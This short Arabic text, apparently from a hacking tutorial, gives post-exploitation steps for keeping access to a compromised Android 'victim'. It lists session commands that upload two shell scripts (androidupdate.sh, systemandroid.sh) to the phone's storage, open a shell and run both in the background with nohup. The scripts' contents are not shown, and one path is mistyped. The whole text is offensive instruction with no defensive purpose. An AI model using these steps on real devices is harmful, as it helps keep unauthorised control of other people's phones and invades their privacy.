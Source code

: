 سكريبتات لتثبيت الضحية 
للاندرويد
بعد اختراق الضحية نقوم برفع السكريبت عبر بالاوامر التالية - وتشغيله

upload '/root/Desktop/androidupdate.sh' /sdcard
upload '/root/Desktop/systemandroid.sh' /cdcard
shell
cd sdcard
nohup sh androidupdate.sh
nohup sh systemandroid.sh
